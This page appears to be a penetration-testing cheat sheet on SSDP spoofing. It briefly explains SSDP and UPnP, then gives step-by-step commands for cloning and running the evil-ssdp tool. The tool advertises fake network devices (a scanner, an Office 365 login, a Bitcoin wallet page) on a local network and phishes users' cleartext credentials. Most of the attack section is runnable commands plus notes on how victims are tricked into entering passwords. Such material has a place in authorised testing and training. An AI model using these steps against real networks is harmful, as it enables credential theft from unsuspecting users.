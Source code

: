 # 🟨 SSDP Spoofing

## <mark style="color:red;">SSDP</mark>

SSDP or Simple Service Discovery Protocol is a network protocol designed for advertisement and discovery of network services. It can work without any DHCP or DNS Configuration. It was designed to be used in residential or small office environments. It uses UDP as the underlying transport protocol on port 1900. It uses the HTTP method NOTIFY to announce the establishment or withdrawal of services to a multicast group. It is the basis of the discovery protocol UPnP.

## <mark style="color:red;">UPnP</mark>

UPnP or Universal Plug and Play is a set of networking protocols that allows networked devices, such as personal computers, printers, Internet gateways, Wi-Fi access points, and mobile devices to discover each other’s availability on the network and establish network services for communications, data sharing, and entertainment. The UPnP architecture supports zero-configuration networking. A UPnP compatible device from any vendor can dynamically join a network, obtain an IP address, announce its name, advertise or convey its capabilities upon request, and learn about the presence and capabilities of other devices.

## <mark style="color:red;">Evil SSDP</mark>

{% embed url="https://github.com/initstring/evil-ssdp" %}

A tool for setting up a fake SSDP device and phishing the user for clear text credentials:

{% hint style="warning" %}
The attacker has to be in the same network as the target systems.
{% endhint %}

```
git clone https://github.com/initstring/evil-ssdp.git
cd evil-ssdp/ls
python3 evil-ssdp.py --help
```

to run the attack :&#x20;

```
python3 evil-ssdp.py -i eth0
```

{% hint style="info" %}
#### The default template is office 365 login console, you can change the template with -t \[template name]
{% endhint %}

&#x20;to setup a fake scanner for phishing, use the scanner template:

```
python3 evil-ssdp.py eth0 --template scanner
```

if the user clicks on the scanner icon in windows explorer > networks, the default browser will open up a web page and ask for credentials in order to connect to the device:

![](<../../.gitbook/assets/image (205).png>)

if the user enters the credentials, EvilSSDP will grab and show them

![](<../../.gitbook/assets/image (118).png>)

## <mark style="color:red;">Other templates</mark>

### <mark style="color:orange;">Office 365</mark>

```
python3 evil_ssdp.py eth0 -t office365
```

![](<../../.gitbook/assets/image (2) (2).png>)

### <mark style="color:orange;">Bitcoin Wallet</mark>

```
python3 evil_ssdp.py eth0 -t bitcoin -b
```

![](<../../.gitbook/assets/image (2) (1) (1) (1).png>)

check the repository for other available templates or use your own template and xml description file.
